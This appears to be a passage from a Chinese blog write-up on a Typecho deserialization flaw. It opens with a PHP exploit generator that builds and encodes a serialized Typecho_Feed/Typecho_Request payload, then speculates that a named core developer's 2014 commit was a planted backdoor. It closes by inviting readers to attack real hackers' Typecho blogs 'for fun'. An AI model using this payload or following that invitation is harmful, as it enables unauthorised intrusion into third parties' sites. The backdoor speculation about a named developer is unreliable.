 ```text
            private $_items = array();
public $dateFormat;
public function __construct(){
    $this->_type=self::RSS2;
    $item['link']='1';
    $item['title']='2';
    $item['date']=1507720298;
    $item['author']= new Typecho_Request();
    $this->_items[0]=$item;
}
}

$x=new Typecho_Feed();

$a=array(
'host' => 'localhost',
  'user' => 'root',
    'charset' => 'utf8',
      'port' => '3306',
        'database' => 'typecho',
        'adapter'=>$x,
        'prefix'=>'typecho_'
    );
echo serialize($a);
echo "\n";
echo urlencode(base64_encode(serialize($a)));
?>
```

## backdoor？

写完exp后，我回过头去查看最开始的漏洞入口，我发现这段代码其实放在这里没有任何合理性，尽管他的代码风格和下面的很像，但是他在这里起不到任何作用，然后ph师父说，typecho有github维护，然后我们就去查了他的commit记录：

commit 23b87aeb ，祁宁在 2014-04-08 22:43:32 点提交，这里我俩就开始疑惑，既然14年就有这段代码，那为啥ph师父的旧版本上没有，新版本上反而有了呢，我们看了下这个commit的详情：

我们发现 祁宁 其实就是 joyqi，而joyqi是typecho的核心开发者，他把这段代码在 2014-04-08 写好后直接提交在了master中，查看 v0.9-14.5.25 的releases，其中已经包含了这段代码，也就是说，这段代码形似后门的代码由核心开发者提交后，存在了三年半的时间，都没有任何人发现。。。。

那么究竟是谁添加的这段鸡儿用没有，但是谁都看不出来的代码呢。。。。。可能是14年的时候 joyqi 对账号被人黑掉了吧，也或许，这真的是开发者的一时手滑。细思恐极。

## 乐呵一下

圈内有几位知名的黑客大佬的博客是用typecho的，打了一下，还是可以搞的，大家也可以打一打乐呵一下。

大哥抽烟.jpg


